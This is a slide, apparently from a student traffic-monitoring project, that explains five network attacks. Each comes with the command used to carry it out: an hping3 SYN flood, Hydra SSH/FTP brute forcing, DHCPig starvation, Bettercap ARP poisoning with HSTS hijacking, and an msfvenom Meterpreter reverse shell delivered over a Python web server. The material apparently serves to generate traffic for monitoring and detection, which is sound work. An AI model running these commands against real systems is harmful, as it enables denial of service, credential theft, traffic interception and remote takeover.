

TRAFFIC MONITORING FINAL PROJECT
A SYN flood attack overwhelms a target server with a flood of TCP SYN packets, exhausting its resources and causing it to become unresponsive to legitimate traffic.
Hping3 was used for this attack with the following command
hping3 -c $packets -d $size -S -p $port --flood $target_ip -V

SSH and FTP Brute Force Attack:
This attack attempts to gain unauthorized access to SSH and FTP servers by trying different username and password combinations until a successful login is achieved.
Hydra was used for this attack with the following command:
hydra -v -L $user_file -P $pass_file $protocol://$target_ip:$port -o credentials.txt

DHCP Starvation Attack:
In a DHCP starvation attack, an attacker floods a DHCP server with DHCP requests, exhausting the available IP address pool. This can lead to denial of service for legitimate clients trying to obtain IP addresses.
DHCPig was used for this attack with the following command
sudo dhcpig -c -v10 -l -a -i -o $iinterface

MITM ARP Poisoning Attack:
A Man-in-the-Middle (MITM) ARP poisoning attack involves spoofing ARP messages to associate the attacker's MAC address with the IP address of another device on the network. This allows the attacker to intercept and manipulate network traffic between the victim and other devices.
Bettercap was used for this attack with the following command:
sudo bettercap -iface $iface -eval "set arp.spoof.fullduplex true; set arp.spoof.target $target_ip; net.sniff on; arp.spoof on; hstshijack/hstshijack"

Meterpreter Reverse Shell on Windows:
This attack involves establishing a reverse shell on a Windows system using a Meterpreter payload generated with msfvenom. Once executed, the reverse shell provides the attacker with remote access and control over the compromised Windows machine. A simple python3 webserver was also used in the attack to transfer the malware to the target machine
Metasploit and Python3 was used for this attack with the following commands:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -f exe > payloads/$file_name.exe
python3 -m http.server --directory payloads 8080
msfconsole -q -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $lhost;set LPORT $lport; exploit"
24